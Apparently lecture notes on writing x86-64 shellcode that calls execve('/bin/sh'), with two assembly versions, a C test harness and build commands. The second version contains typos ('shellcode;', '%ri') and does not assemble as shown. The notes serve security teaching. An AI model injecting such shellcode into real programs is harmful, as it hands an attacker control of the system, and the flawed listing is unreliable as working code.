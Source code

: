 +++
title = 'Shellcode'
+++
# Shellcode
Attacker's goal:
- we found a vulnerability allowing overwriting return address
- where do we point the return address?
    - we can only execute code in same process
    - so code that is already in program
    - or code that we inject

Injecting code:
- x86 CPUs do not distinguish code and data
- if memory permissions allow, we can read/write code as data & execute data as program code
- how to inject?
    - as parameter
    - as environment variable
    - provide as input
- injected code must
    - work regardless of where it's stored in memory
    - not depend on any external code/libraries (we don't know their location)
    - not contain NULL bytes (would terminate if stored as a string)
    - do something that gives attacker control of the system, e.g start a shell

System calls:
- user code can't start program, kernel does that
- tell kernel to do this using a system call
- need `execve`, such as: `char argv[] = { "/bin/sh", NULL }; execve("/bin/sh", argv, NULL)`
- so shellcode requirements:
    - string "/bin/sh" in memory
    - array in memory, containing pointer to "/bin/sh" and NULL pointer
    - pointer to the string in `%rdi` (`progname`)
    - pointer to the array in `%rsi` (`argv`)
    - NULL pointer in `%rdx` (`envp`)
    - system call number 0x3b in `%rax` (`execve`)

Shellcode version 1:

```asm
.data
.globl shellcode
shellcode:                          ; PROBLEMS:
    leaq string_addr(%rip), %rdi    ; offset 0x22 -> 0x00000022. has null bytes
    movb $0, 0x07(%rdi)             ; explicit NULL
    movq %rdi, 0x08(%rdi)
    movq $0, 0x10(%rdi)             ; explicit NULL
    leaq 0x08(%rdi), %rsi
    movq $0, %rdx
    movl $0x3b, %eax                ; long 0x3b -> 0x0000003b. has null bytes.
    syscall
string_addr:
    .ascii "/bin/shNAAAAAAAABBBBBBBB"
    .byte 0
```

Shellcode v2:

```asm
.data
.globl shellcode
shellcode;
    jmp over_string
string_addr:
    .ascii  "/bin/shNAAAAAAAABBBBBBBB"
over_string:
    leaq string_addr(%rip), %rdi    ; offset is negative, so no nulls (0xffffffe1)
    xorl %eax, %eax                 ; zero %rax to avoid explicit 0
    movb %al, 0x07(%rdi)
    movq %rdi, 0x08(%rdi)
    movq %rax, 0x10(%rdi)           ; use %rax, avoiding explicit 0
    leaq 0x08(%rdi), %ri
    movq %rax, %rdx                 ; use %rax, avoiding explicit 0
    movb $0x3b, %al                 ; byte reg, upper bytes all zero
    syscall
    .byte 0
```

Run with:

```c
#include <stdio.h>
int main(int argc, char **argv) {
    extern char shellcode;
    void (*f)(void) = (void (*)(void)) &shellcode;
    f();
    fprintf(stderr, "this shouldn't print");
    return -1;
}
```

Compile and run:

```sh
cc -o shellcode-test shellcode-test.c shellcode.s
./shellcode-test
```


